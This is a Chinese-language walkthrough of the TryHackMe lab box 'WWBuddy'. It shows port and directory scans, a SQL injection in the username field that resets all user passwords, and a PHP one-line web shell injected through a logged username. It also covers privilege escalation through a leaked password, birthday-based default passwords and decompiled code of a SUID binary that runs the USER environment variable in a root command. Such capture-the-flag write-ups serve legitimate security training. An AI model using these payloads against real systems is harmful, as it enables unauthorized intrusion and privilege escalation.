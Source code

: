 ```yaml
---
sidebar_position: 149
tags: [Easy, Linux, SQLI, SUID, 文件包含]
title: "WWBuddy"
description: "WWBuddy"
sidebar_label: "WWBuddy"
slug: /tryhackme/149
---
```


# WWBuddy

## 端口扫描

```bash
root@ip-10-10-77-80:~/wwbuddy# nmap -sTCV -p 22,80 --min-rate 1000 10.10.32.243

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-06 01:50 BST
Nmap scan report for ip-10-10-32-243.eu-west-1.compute.internal (10.10.32.243)
Host is up (0.00011s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 66:75:21:b4:93:4a:a5:a7:df:f4:01:80:19:cf:ff:ad (RSA)
|   256 a6:dd:30:3b:e4:96:ba:ab:5f:04:3b:9e:9e:92:b7:c0 (ECDSA)
|_  256 04:22:f0:d2:b0:34:45:d4:e5:4d:ad:a2:7d:cd:00:41 (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Login
|_Requested resource was http://ip-10-10-32-243.eu-west-1.compute.internal/login/
```

## 80

```bash
root@ip-10-10-77-80:~/wwbuddy# gobuster dir -u http://10.10.32.243/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.32.243/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/10/06 01:50:59 Starting gobuster
===============================================================
/images (Status: 301)
/login (Status: 301)
/register (Status: 301)
/profile (Status: 301)
/index.php (Status: 302)
/header.html (Status: 200)
/admin (Status: 301)
/footer.html (Status: 200)
/chat.php (Status: 200)
/js (Status: 301)
/api (Status: 301)
/logout.php (Status: 302)
/config.php (Status: 200)
/styles (Status: 301)
/change (Status: 301)
/server-status (Status: 403)
===============================================================
2023/10/06 02:03:35 Finished
===============================================================
```

访问登陆页面, 并且可以注册一个账号, 在注册之后进行登陆, 我发现其中类似于聊天界面

![image-20240709182657383](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-182658.png)

在此经过一些分析操作, 我还以为是 IDOR 漏洞, 因为查看源代码就会发现其中每个用户都是使用一个 uid 来进行操作, 但是可惜对应的 uid 无法破解, 只能转换思路, 我发现存在修改用户名称以及修改用户密码的界面, 所以我就想着联动一下

1. 修改用户名为 WWBuddy 发现不能操作
2. 修改用户名为 `‘or 1=1 — -` 发现可以这样做,  之后修改用户的密码, 如果后端措施做的不严格那么应该会修改所有用户的密码, 结果如我所料确实修改了所有用户的密码

在登陆Henry 的界面后, 我发现多个几个用户, 其中在和 Roberto 用户的聊天中告诉我们服务端创建的账号默认密码是其用户的生日, 但是我们目前掌握的用户其密码都已经被修改了, 只能另寻他法, 之后我访问 admin 界面发现其是一个访问拦截记录界面, 会记录用户名称, 所以我们可以将用户的名称改为 PHP一句话进行操作

![image-20240709182703236](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-182704.png)

```php
<?php system($_GET['cmd']); ?>
```

修改之后我再次查看页面并进行传参发现可以执行

![image-20240709182712229](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-182713.png)

## 后渗透

### www-data

利用上面发现的文件包含来进行命令注入从而获取 Shell

![image-20240709182726404](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-182727.png)

### www-data —> roberto

使用 Linpeas 进行枚举在其末尾发现一个密码泄露

![image-20240709182733275](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-182734.png)

经过验证这就是我们的 roberto 用户的密码

### roberto —> jenny

在用户 roberto 的家目录进行枚举时发现一个文件, 其中告诉我们 jenny 在下周就是 26 岁生日, 结合我们之前的信息, 用户的默认密码是其生日, 基于创建此文件的创建日期我就开始了逆推, 最终得到其生日为 `08/03/1994`

![image-20240709182743860](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-182745.png)

使用得到的生日作为用户 jenny 的密码进行登陆发现可以

### jenny —> root

在之前进行 linpeas.sh 枚举时我们就会发现一个未知的 SUID 程序

![image-20240709182801766](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-182803.png)

如果你尝试执行你会发现用户 jenny 的当前用户组发生了变化, 我们将其下载到本地进行逆向分析 , 得到如下源代码

```c
undefined8 main(void){
  __uid_t __uid;
  int iVar1;
  char *__src;
  long in_FS_OFFSET;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined4 local_20;
  undefined local_1c;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __uid = getuid();
  if ((int)__uid < 1000) {  # 检查当前用户的 uid 是否大于 1000
    puts("You need to be a real user to be authenticated.");
  }
  else {
    iVar1 = system("groups | grep developer");
    if (iVar1 == 0) {
      puts("You are already a developer.");
    }
    else {
      __src = getenv("USER"); # 获取环境变量 USER 的值
      __uid = getuid();
      setuid(0);
      local_48 = 0x20646f6d72657375;
      local_40 = 0x6c6576656420472d;
      local_38 = 0x207265706f;
      local_30 = 0;
      local_28 = 0;
      local_20 = 0;
      local_1c = 0;
      strncat((char *)&local_48,__src,0x14); # 它将从 __src 指向的源字符串中将最多 20 个字符连接到 local_48 变量所指向的位置
      system((char *)&local_48); # 执行命令
      puts("Group updated");
      setuid(__uid);
      system("newgrp developer");
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

经过分析我得出如下结论:

- 用户的 uid > 1000
- 从环境变量中获取的 USER , 长度限制 20 字符

![image-20240709182808407](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-182809.png)
